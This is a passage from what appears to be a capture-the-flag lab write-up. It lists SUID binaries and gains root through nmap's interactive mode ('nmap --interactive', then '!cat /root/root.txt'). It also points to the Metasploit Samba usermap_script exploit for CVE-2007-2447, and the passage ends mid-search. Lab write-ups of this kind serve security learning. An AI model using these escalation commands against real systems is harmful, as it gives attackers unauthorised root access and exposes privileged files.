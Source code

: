```
-rwsr-xr-x 1 root root 80K Apr 14  2008 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 31K Dec 10  2007 /bin/ping
-rwsr-xr-x 1 root root 27K Dec 10  2007 /bin/ping6
-rwsr-xr-x 1 root root 64K Dec  2  2008 /sbin/mount.nfs
-rwsr-xr-- 1 root dhcp 2.9K Apr  2  2008 /lib/dhcp3-client/call-dhclient-script (Unknown SUID binary!)
-rwsr-xr-x 2 root root 106K Feb 25  2008 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerableedit
-rwsr-sr-x 1 root root 7.3K Jun 25  2008 /usr/bin/X
-rwsr-xr-x 1 root root 8.4K Nov 22  2007 /usr/bin/netkit-rsh
-rwsr-xr-x 1 root root 37K Apr  2  2008 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 13K Dec 10  2007 /usr/bin/traceroute6.iputils
-rwsr-xr-x 2 root root 106K Feb 25  2008 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 12K Nov 22  2007 /usr/bin/netkit-rlogin
-rwsr-xr-x 1 root root 11K Dec 10  2007 /usr/bin/arping
You own the SUID file: /usr/bin/at
-rwsr-xr-x 1 root root 19K Apr  2  2008 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 28K Apr  2  2008 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 763K Apr  8  2008 /usr/bin/nmap
-rwsr-xr-x 1 root root 24K Apr  2  2008 /usr/bin/chsh
-rwsr-xr-x 1 root root 16K Nov 22  2007 /usr/bin/netkit-rcp
-rwsr-xr-x 1 root root 29K Apr  2  2008 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 46K Mar 31  2008 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 13K Mar 27  2008 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 263K Oct  4  2007 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-- 1 root telnetd 5.9K Dec 17  2006 /usr/lib/telnetlogin
-rwsr-xr-- 1 root www-data 11K Mar  9  2010 /usr/lib/apache2/suexec
-rwsr-xr-x 1 root root 4.5K Nov  5  2007 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 162K Apr  6  2008 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 9.4K Aug 17  2009 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)
-r-sr-xr-x 1 root root 14K Nov  3  2020 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 9.4K Nov  3  2020 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```
There is SUID set for nmap. I am wondering if it is possible to run a command locally using nmap and, therefore, be able to run a command as root:
```
sh-3.2$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
root
system() execution of command failed
nmap> !cat /root/root.txt
e[...SNIP...]9
```
Thanks to the interactive mode of nmap, I am able to execute any commands as root, so I can get the flag!
## Learning from other writeups
### Official writeup
In the official writeup, the Samba service is exploited using an RCE vulnerability (CVE-2007-2447). A metasploit exploit (`multi/samba/usermap_script`) exists to exploit this vulnerability in less than 10 seconds. Then, you're logged as root, and you can get both flags. The question now is why I missed this. I did a search on the samba exploits on metasploit, but I was not able to say if the exploit was applicable:
```
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> search exploit samba

Matching Modules
```